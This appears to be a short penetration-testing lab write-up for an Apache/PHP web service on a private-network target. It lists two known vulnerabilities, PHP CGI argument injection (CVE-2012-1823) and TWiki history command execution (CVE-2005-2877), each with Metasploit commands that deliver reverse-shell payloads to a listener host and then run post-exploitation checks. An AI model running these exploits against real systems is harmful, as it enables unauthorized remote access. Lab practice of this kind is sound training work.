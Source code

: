 
## Port 80 | http (Apache/PHP)

https://www.youtube.com/watch?v=Lqfo21BsKv4

### Attack Vector #1 

CVE-2012-1823

PHP CGI Argument Injection

http://192.168.50.7/phpinfo.php

When run as a CGI, PHP up to version 5.3.12 and 5.4.2 is vulnerable to an argument injection vulnerability.
```
> use exploit/multi/http/php_cgi_arg_injection
> set rhost 192.168.50.7

> set payload php/meterpreter/reverse_tcp
> set lhost 192.168.50.6

> exploit

> getuid
> sysinfo
```
### Attack Vector #2 

CVE-2005-2877

TWiki History TWikiUsers rev Parameter Command Execution
```
> use exploit/unix/webapp/twiki_history
> set rhost 192.168.50.7

> set payload cmd/unix/reverse
> set lhost 192.168.50.6

> exploit

id
```

